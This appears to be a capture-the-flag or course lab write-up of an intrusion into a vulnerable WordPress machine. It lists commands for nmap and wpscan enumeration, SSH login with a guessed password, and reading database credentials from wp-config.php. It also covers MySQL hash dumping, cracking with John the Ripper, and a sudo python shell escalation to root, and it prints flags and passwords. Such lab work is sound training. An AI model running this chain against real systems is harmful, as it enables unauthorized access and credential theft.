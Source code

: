 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110 -sV -O
  PORT    SERVICE
  22/tcp  ssh
  80/tcp  http
  111/tcp rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn
  OS details: Linux 3.2 - 4.9
```

![nmapImage](/Images/Target1_nmapScan.png)

This scan identifies the services below as potential points of entry:

- Target 1
  - ssh (OpenSSH/6.7p1)
  - http (Apache/2.4.10)

The following vulnerabilities were identified on each target:

- Target 1
  - wpscan (MILD)
  - Weak Password (MILD)
  - OpenSSH (SEVERE)
  - Escalation to root (SEVERE)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}

    - Found the flag when inspecting HTML file of the services page on the RavenSecurity Website
      ![flag1](/Images/flag1_RavenWebsite.png)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}

    - wpscan/Weak Password/openSSH
      - Used wpscan to find accounts on the website
      ```bash
        wpscan --url http://192.168.1.110/wordpress --eu
      ```
      - SSHed into target1 through michaels account (used weak password.)
        ssh michael@192.168.1.110
      - Navigated to /var/www and found flag2
        ![flag2](/Images/flag2_michaelwww.png)

  - `flag3`: {afc01ab56b50591e7dccf93122770cd2}

    - Navigated to /var/www/html and found the wp-config.php file.
    - upon reading the file I found the MySQLDBPassword.
      cat wp-config.php
      ![MySQL_Password](/Images/MySQL_Password.png)
    - Then Logged into the mysql database using found login.

    ```bash
      mysql -h localhost -u root -pR@v3nSecurity
    ```

    ![Mysql_Login](/Images/mySQL_get_in_and_show_databases.PNG)

    - Then accessed the wordpress database and used a sql request.

    ```sql
    SELECT * From wp_posts;
    ```

    in order to find the flag within the table.
    ![flag3](/Images/flag3.png)

  - `flag4`: {715dea6c055b9fe3337544932f2941ce}

    - Escalation to root/openSSH

      - Found the hashed password for steven within the wp_users table.
        ![hashed_password](/Images/MYSQL_get_hashes.PNG)
      - Then used John the ripper to crack the hashed password (pink84).
        ![CrackedHash](Images/use_John_to_crack_steven_PW_pink84.PNG)
      - Then sshed into target1 using stevens account.
      - Used a python script to get escalate to root privilege.
        ```bash
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
        ```
        ![EscalationToRoot](/Images/steven_getshell_and_Root.PNG)
      - Then used cat to read flag4

        ![flag4](/Images/flag4Command.PNG)
